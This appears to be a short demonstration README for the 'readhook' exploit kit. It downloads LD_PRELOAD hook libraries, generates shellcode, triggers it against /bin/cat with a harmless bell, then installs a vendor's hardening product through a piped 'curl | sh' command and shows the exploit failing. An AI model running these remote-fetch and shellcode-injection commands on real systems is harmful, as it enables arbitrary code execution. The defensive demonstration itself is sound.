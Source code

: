# Readhook3d Demonstration
## Allocate a Centos Environment (with curl and wget)
```
docker run --rm -it --privileged --name centos centos
yum update -y && yum install -y curl wget
```
## Download Readhook3d Components
```
wget -q -O /tmp/basehook.so https://github.com/polyverse/readhook/releases/download/jenkins3d/basehook.so
wget -q -O /tmp/fullhook.so https://github.com/polyverse/readhook/releases/download/jenkins3d/fullhook.so
```
## Generate Shell-code and Perform Exploit
```
export shellCode=$(echo -n xyzzxMAKELOAD | LD_PRELOAD=/tmp/fullhook.so /bin/cat)
echo -n $shellCode | LD_PRELOAD=/tmp/basehook.so /bin/cat
# (Confirm an audible bell)
```
## Install Polyverse and Repeat Exploit
```
curl https://sh.polyverse.io | sh -s install vZ2v3Bo4Kbnwj9pECrLsoGDDo
yum reinstall -y \*
echo -n $shellCode | LD_PRELOAD=/tmp/basehook.so /bin/cat
# (Confirm that there is no audible sound)
```
